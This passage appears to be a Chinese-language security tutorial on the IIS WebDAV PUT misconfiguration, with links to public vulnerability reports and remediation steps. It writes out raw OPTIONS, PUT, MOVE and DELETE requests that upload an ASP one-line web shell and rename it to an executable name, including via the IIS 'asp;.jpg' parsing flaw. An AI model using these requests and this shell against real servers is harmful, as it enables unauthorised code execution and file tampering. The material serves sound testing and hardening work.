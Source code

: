 对服务器发送OPTION包：

	OPTIONS / HTTP/1.1
	Host: www.xxx.com
若返回的HTTP响应头中带有PUT、MOVE等方法时则可以确定服务器开启了WebDAV。

此时用PUT上传一个SHELL，但SHELL后缀不可以是可执行文件后缀。

	PUT /test.txt HTTP/1.1
	Host: www.xxx.com
	Content-Length: 23

	<%eval request("a")%>
若服务器启用了“WebDAV”扩展，并且复选了“写入”，就可以写入txt文件了。

若服务器开启了“脚本资源访问”，可以用MOVE方法将txt后缀文件改成可执行文件的后缀。

	MOVE /test.txt HTTP/1.1
	Host: www.xxx.com
	Destination: http://www.xxx.com/shell.asp
若服务器关闭了“脚本资源访问”，可利用IIS解析漏洞来执行shell。

	MOVE /test.txt HTTP/1.1
	Host: www.xxx.com
	Destination: http://www.xxx.com/test.asp;.jpg
若服务器开启了DELETE方法，可以使用以下HTTP请求删除制定文件。

	DELETE /test.txt HTTP/1.1
	Host: www.xxx.com
你也可以使用以下的开源DAV管理工具：

[DAV Explorer](http://www.davexplorer.org/installation.html)_

**4、实际案例**

---
[15个gov edu的IISPUT漏洞合集](http://www.wooyun.org/bugs/wooyun-2010-032273)

[海康威视某通用系统配置不当可PUT文件](http://www.wooyun.org/bugs/wooyun-2015-0101152)

[某市红十字会由于iis配置不当导致put任意文件上传](http://www.wooyun.org/bugs/wooyun-2015-097612)

**5、漏洞修复**

---
禁用WebDAV

通常情况下网站不需要支持额外的方法，右键WebDAV，点击禁用即可。

如果要使用WebDAV的话，加上权限验证

如果选取“脚本资源访问”，则用户将具备修改WebADV文件夹内的脚本文说明件(scriptfile)的功能。

除了此处的虚拟目录权限外，还需要视NTFS权限，才可以决定用户是否有权限来访问WebDAV文件夹内的文件。

WebDAV文件夹的NTFS权限给予用户适当的NTFS权限。

首先请设置让Everyone组只有“读取”的权限，然后再针对个别用户给予“写入”的权限，例如我们给予用户“User”写入的权限。

选择验证用户身份的方法启动“IIS管理器”，然后右击WebDAV虚拟目录，选择“属性”→“目录安全性”，单击“身份验证和访问控制”处的编辑按钮。

